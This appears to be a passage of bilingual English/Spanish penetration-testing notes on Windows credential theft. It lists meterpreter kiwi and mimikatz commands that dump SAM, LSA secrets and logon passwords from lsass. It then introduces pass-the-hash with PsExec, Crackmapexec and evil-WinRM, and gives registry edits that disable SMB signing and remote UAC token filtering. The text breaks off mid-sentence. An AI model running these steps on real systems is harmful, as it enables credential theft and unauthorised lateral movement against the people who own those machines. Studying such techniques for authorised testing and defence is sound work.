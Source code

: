 - We can utilize meterpreter extension kiwi

```bash
# meterpreter session
sysinfo
getuid
pgrep lsass
migrate id
getuid
# loAd kiwi
load kiwi
? # help command
creds_all
lsa_dump_sam
lsa_dump_secrets

# MimiKatz
cd C:\\Temp
upload /usr/share/windows-resources/mimikatz.exe

shell
C:\Temp> .\mimikatz.exe

privilege::debug # 20 can extract hash information
lsadump::sam # RID (500) means admin user # Extract NTLM hashes via the LSA
lsadump::secrets
sekurlsa::logonpasswords
```

# Pass The Hash Attacks

Is an exploitation technique that involves capturing | harvesting NTLM hashes | Clear-text passwords and utilizing them to auth with the target legitimately.

- We can use multiple tools to facilitate a Pass-The-Hash attack:
  - Metasploit PsExec module
  - Crackmapexec
  - evil-WinRM

Si usamos el modulo **psexec** de una session donde nuestro usuario esta en el grupo Administrador pero no es administrador, y tenemos STATUS_ACCESS_DENIED (Command=117 WordCount=0) error, es un indicativo bueno para cambiar los registros podria ser requerido para un ataque exitoso.

```bash
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System añadir un nuevo DWORD (32-bit) nombrado LocalAccountTokenFilterPolicy y setearlo a 1

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters añadir un nuevo DWORD (32-bit) nombrado RequireSecuritySignature y setearlo a 0

```

O usando comandos de powershell
